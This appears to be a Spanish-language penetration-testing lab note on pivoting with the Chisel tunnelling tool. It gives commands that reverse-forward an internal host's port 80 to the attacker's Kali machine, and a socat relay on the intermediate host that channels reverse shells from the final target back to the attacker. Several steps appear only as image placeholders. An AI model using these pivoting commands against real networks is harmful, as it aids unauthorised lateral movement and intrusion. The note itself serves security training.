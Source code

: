 Tendremos el siguiente escenario:
![[Pasted image 20240615202048.png]]

Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20240615202101.png]]

![[Pasted image 20240615202106.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240615202118.png]]

![[Pasted image 20240615202122.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240615202130.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```

![[Pasted image 20240615202146.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240615202153.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.

